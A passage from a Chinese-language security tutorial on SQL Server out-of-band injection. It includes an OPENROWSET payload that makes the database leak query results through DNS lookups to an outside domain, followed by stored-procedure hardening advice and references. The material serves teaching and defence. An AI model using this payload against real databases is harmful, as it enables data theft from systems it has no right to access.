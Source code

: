 

**<br>**

**Out-of-Band**

关于带外注入在上一篇文章已经有讲到,但DNS注入只讲了利用,这里做了一张图为大家讲解,同样的SMB Relay Attack 也是存在的,可自行实现.

下图就是DNS注入中的请求过程

[![](https://p2.ssl.qhimg.com/t014e85b648a3d7f64f.png)](https://p2.ssl.qhimg.com/t014e85b648a3d7f64f.png)

那么SQL Server的DNS注入和MySQl稍有不容,但都是利用了SMB协议



```
Param=1; SELECT * FROM OPENROWSET('SQLOLEDB', (`{`INJECT`}`)+'.rootclay.club';'sa';'pwd', 'SELECT 1')
Makes DNS resolution request to `{`INJECT`}`.rootclay.club
```



**防御**

对于代码上的防御在上一篇文章已有总结,就不多BB了…..这里主要说一下存储过程方面的东西

1. 设置TRUSTWORTHY为offALTER DATABASE master SET TRUSTWORTHY OFF

2. 确保你的存储过程的权限不是sysadmin权限的

3. 对于 PUBLIC用户是不能给存储过程权限的REVOKE EXECUTE ON 存储过程 to PUBLIC

4. 对于自己不需要的存储过程最好删除

5. 当然,在代码方面就做好防御是最好的选择,可以参见上篇文章

<br>

**参考**

[http://www.blackhat.com/presentations/bh-europe-09/Guimaraes/Blackhat-europe-09-Damele-SQLInjection-slides.pdf](http://www.blackhat.com/presentations/bh-europe-09/Guimaraes/Blackhat-europe-09-Damele-SQLInjection-slides.pdf) 

[http://colesec.inventedtheinternet.com/hacking-sql-server-with-xp_cmdshell/](http://colesec.inventedtheinternet.com/hacking-sql-server-with-xp_cmdshell/) 

[http://www.cnblogs.com/zhycyq/articles/2658225.html](http://www.cnblogs.com/zhycyq/articles/2658225.html) 

[https://evi1cg.me/tag/mssql/](https://evi1cg.me/tag/mssql/) 

[http://404sec.lofter.com/post/1d16b278_6329f6d](http://404sec.lofter.com/post/1d16b278_6329f6d) 

<br>



**传送门**

**[【技术分享】MySQL 注入攻击与防御](http://bobao.360.cn/learning/detail/3758.html)**


